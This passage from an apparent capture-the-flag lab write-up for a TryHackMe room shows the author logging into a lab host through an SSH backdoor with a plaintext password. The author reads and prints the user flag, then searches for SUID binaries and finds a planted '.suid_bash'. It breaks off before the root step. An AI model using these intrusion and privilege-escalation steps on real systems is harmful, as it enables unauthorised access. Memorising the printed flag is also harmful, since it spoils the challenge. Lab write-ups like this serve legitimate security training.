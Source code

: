 - A Google Search solved the issue

```bash
┌──(kali㉿kali)-[~/thm/Overpass-2-Hacked]
└─$ sshpass -p november16 ssh -o "StrictHostKeyChecking no" -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa -p 2222 james@10.10.153.34
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@overpass-production:/home/james/ssh-backdoor$ cat ../user.txt
thm{d119b4fa8c497ddb0525f7ad200e6567}
james@overpass-production:/home/james/ssh-backdoor$
```

> thm{d119b4fa8c497ddb0525f7ad200e6567}

### What's the root flag?

```bash
james@overpass-production:/home/james$ find / -type f -perm -4000 -ls 2>/dev/null
      499     44 -rwsr-xr-x   1 root     root        44528 Mar 22  2019 /usr/bin/chsh
      844    148 -rwsr-xr-x   1 root     root       149080 Jan 31  2020 /usr/bin/sudo
      497     76 -rwsr-xr-x   1 root     root        76496 Mar 22  2019 /usr/bin/chfn
      739     24 -rwsr-xr-x   1 root     root        22520 Mar 27  2019 /usr/bin/pkexec
      880     20 -rwsr-xr-x   1 root     root        18448 Jun 28  2019 /usr/bin/traceroute6.iputils
      703     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newuidmap
      701     40 -rwsr-xr-x   1 root     root        37136 Mar 22  2019 /usr/bin/newgidmap
      719     60 -rwsr-xr-x   1 root     root        59640 Mar 22  2019 /usr/bin/passwd
      592     76 -rwsr-xr-x   1 root     root        75824 Mar 22  2019 /usr/bin/gpasswd
      446     52 -rwsr-sr-x   1 daemon   daemon      51464 Feb 20  2018 /usr/bin/at
      702     40 -rwsr-xr-x   1 root     root        40344 Mar 22  2019 /usr/bin/newgrp
     1254    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     7178     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1258     16 -rwsr-xr-x   1 root     root          14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7392    100 -rwsr-xr-x   1 root     root         100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1072     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   262241     44 -rwsr-xr-x   1 root     root          43088 Jan  8  2020 /bin/mount
   262214     32 -rwsr-xr-x   1 root     root          30800 Aug 11  2016 /bin/fusermount
   262281     44 -rwsr-xr-x   1 root     root          44664 Mar 22  2019 /bin/su
   262265     64 -rwsr-xr-x   1 root     root          64424 Jun 28  2019 /bin/ping
   262299     28 -rwsr-xr-x   1 root     root          26696 Jan  8  2020 /bin/umount
   268869   1088 -rwsr-sr-x   1 root     root        1113504 Jul 22  2020 /home/james/.suid_bash
```
